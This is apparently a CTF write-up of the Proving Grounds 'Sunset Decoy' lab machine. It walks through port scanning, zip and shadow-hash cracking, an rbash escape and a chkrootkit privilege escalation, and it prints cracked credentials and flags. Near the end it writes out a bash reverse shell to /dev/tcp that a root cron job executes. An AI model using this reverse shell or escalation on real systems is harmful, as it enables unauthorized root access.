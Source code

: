 ```yaml
---
title: Sunset Decoy
categories: [Proving Grounds Play, Sunset]
tags: [Public Exploit, chrootkit, fcrackzip, hashcat, vim, PrivEsc]
image:
  path: https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2020/12/sunsetdecoy.png?fit=1200%2C864&w=640
  alt:  Sunset-Decoy Machine 🖥️
---
```



### Lets check the IP address first —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled.png)

```bash
IP : 10.0.2.49
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Decoy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.49
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:50 IST
Nmap scan report for 10.0.2.49
Host is up (0.00093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:BA:A7:50 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%201.png)

Now lets brute force the password of zip file with `fcrackzip` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%202.png)

Got the password : `manuel`

Now Lets see what I got →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%203.png)

Now lets decrypt the hash from shadow file with `hashcat` tool ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%204.png)

Now I got the credentials of user → 

```bash
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::

password : server
```

Now let’s SSH into it ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%205.png)

Since it is running rbash so I need to convert it to bash for that lets see what I got —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%206.png)

Lets execute `honeypot.decoy` which have root privileges —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%207.png)

Lets run Leave a note command with runs on vim I think so , which that I can change the shell ➡️

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%208.png)

Now lets also set the PATH file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%209.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt 
35253d886842075b2c6390f35946e41f
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

Now lets enumerate freely —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2010.png)

Lets check the logs file —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2011.png)

here I find extraction of `chkrootkit` which works as Antivirus purpose and wait I also found AV launch option in `honeypot.decoy` file so lets execute it →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2012.png)

Now I see it is executing the chkrootkit as root Lets find an exploit related to it —>

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2013.png)

After reading it I got the steps to perform this exploitation →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2015.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo "bash -c 'bash -i >& /dev/tcp/10.0.2.27/4444 0>&1'" > /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod +x /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

Lets wait for cronjob to execute and wait for nc respomse →

![Untitled](/Vulnhub-Files/img/Sunset-Decoy/Untitled%2016.png)

```bash
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt	
cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_

1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@60832e9f188106ec5bcc4eb7709ce592:~#
```